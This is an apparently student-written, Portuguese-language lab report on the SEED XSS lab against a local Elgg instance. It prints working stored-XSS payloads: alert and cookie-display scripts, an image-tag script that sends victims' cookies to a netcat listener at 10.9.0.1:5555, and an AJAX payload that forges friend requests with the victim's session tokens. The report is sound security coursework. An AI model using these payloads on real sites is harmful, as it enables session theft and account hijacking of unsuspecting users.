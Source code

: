 
# Cross-Site Scripting (XSS) 

## Setup

Numa fase inicial adicionamos novas entradas nos hosts conhecidos pela máquina virtual e executamos os containers fornecidos no lab:

```bash
sudo nano etc/hosts     # colocar '10.9.0.5 www.seed-server.com'
                        # colocar 'www.example{32a, 32b, 32c, 60, 70}.com'

$ dcbuild               # docker-compose build
$ dcup                  # docker-compose up
```

## Task 1 - Posting a Malicious Message to Display an Alert Window

A tarefa consistia em injetar um código javascript num perfil do *Elgg* de forma a aparecer uma mensagem num popup. Para isso iniciamos sessão com uma conta do sistema, por exemplo a da Alice (alice/seedalice), e editamos o seu perfil. Na parte "About Me", modificamos o HTML dessa secção e colocamos o script:

```html
<script>alert('XSS');</script>
```

Ao observarmos o perfil da Alice com outra conta do sistema, foi possível verificar que o ataque foi bem implementado: tal como esperado, a mensagem no popup apareceu:

![Task 1](../img/lab10task1.png)

## Task 2 - Posting a Malicious Message to Display Cookies

Esta tarefa é muito semelhante à anterior, embora o código seja diferente pois agora permite expor as cookies dos utilizadores assim que visualizam o perfil. Para isso, no campo "About me" da conta da Alice, colocamos o seguinte código:

```html
<script>alert(document.cookie);</script>
```

Agora, sempre que visualizamos o perfil da Alice, os nossos cookies aparecem na mensagem de alerta do próprio website:

![Task 2](../img/lab10task2.png)

## Task 3 - Stealing Cookies from the Victim’s Machine

A ideia do ataque é além de expor as cookies dos utilizadores enviá-las através de um *HTTP request* para o atacante, que estará à escuta na porta 5555 do mesmo servidor. Assim, foi necessário editar o perfil da Alice e na secção "About me" adicionar o seguinte código:

```html
<script>document.write('<img src=http://10.9.0.1:5555?c='
                       + escape(document.cookie) + '   >');
</script>
```

Este código permite que sempre que a página de perfil da Alice é renderizada, os cookies da sessão do cliente seja enviado por *GET requests*. De forma a poder visualizar esses mesmos *requests*, abrimos uma shell e com o seguinte comando ficamos a interceptar as ligações:

```bash
$ nc -lknv 5555
```

Ao iniciar sessão com outra conta e visitar o perfil da Alice, recebemos através da ligação anteriormente feita as cookies desse utilizador do sistema:

![Task 3](../img/lab10task3.png)

## Task 4 - Becoming the Victim’s Friend

A ideia deste ataque é que, quando a vítima entrar no perfil do atacante, adiciona-o como amigo. 

Numa fase inicial, acedeu-se ao perfil do Sammy, fez-se um pedido de amizade e capturou-se o *request* com a ferramenta HTTP Header Live:

![Task 4 a](../img/lab10task4a.png)

Verificou-se que o endereço foi o seguinte:

```note
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1669377267&__elgg_token=Zu2c7dLG2QTOULCeBD8Nsw&__elgg_ts=1669377267&__elgg_token=Zu2c7dLG2QTOULCeBD8Nsw
```

Com base neste URL, construiu-se um script que faz um pedido AJAX sempre que a página de perfil do Sammy é renderizada, e colocou-se no campo "About me" do Sammy. A variável `ts` é o timestamp do pedido e a variável `token` é um token dinâmico que garante a autenticidade do pedido, associada à sessão do utilizador.

```html
<script type="text/javascript">
    window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
    }
</script> 
```

Tal como esperado, sempre que outro utilizador do sistema acede ao perfil do Sammy, o browser envia automaticamente um pedido de amizade:

![Task 4 b](../img/lab10task4b.png)

Na imagem pode-se observar que apesar do botão para a amizade não estar clicado, o pedido foi enviado.

